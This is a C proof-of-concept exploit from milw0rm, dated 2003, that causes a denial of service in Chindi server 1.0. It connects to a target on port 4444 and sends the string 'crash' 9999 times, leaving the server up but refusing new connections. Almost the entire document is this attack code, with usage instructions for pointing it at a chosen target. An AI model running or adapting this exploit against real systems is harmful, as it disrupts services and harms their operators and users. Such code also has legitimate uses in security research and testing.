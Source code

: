 EXP
---

    /***************************************************
    * Chindi server 1.0  Denial of Service
    * Proof of Concept by Luca Ercoli  luca.ercoli at inwind.it
    * After DoS, server appears to be up, but will not allow
    * new connections.
    ****************************************************

    #include
    #include
    #include
    #include
    #include

    #define PORT    4444
    #define DOS     "crash"


    int main(int argc, char *argv[]){

    int nOpt,count,sockfd;
    struct hostent *he;
    struct sockaddr_in server_addr;

    char *host;

    printf ("\nChindi server 1.0 remote DoS\n\n");

    if(argc < 2 ) {
                    printf ("Usage: %s -t target\n",argv[0]);
                    exit(0);
            }

    while((nOpt = getopt(argc, argv, "t")) != -1) {

            switch(nOpt) {
                            case 't':
                            host = optarg;
                            break;
                            default:exit(0);
                    }
            }

    if ((he = gethostbyname(argv[2])) == NULL)
              {
                      herror("gethostbyname");
                      exit(1);
              }

    server_addr.sin_family = AF_INET;
    server_addr.sin_port = htons(PORT);
    server_addr.sin_addr = *((struct in_addr *) he->h_addr);

    sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    if (connect (sockfd, (struct sockaddr *) &server_addr,sizeof(struct
    sockaddr)) == -1)
              {
                      perror("Connect");
                      exit(1);
              }

    printf("1. Connected\n");
    sleep(1);
    printf("2. Sending crash string\n");
    sleep(1);
    printf("3. Verifing server status: ");
    sleep(1);

    for (count=0; count<9999; count++) send(sockfd,DOS,strlen(DOS),0);

    close(sockfd);


    // milw0rm.com [2003-04-18]
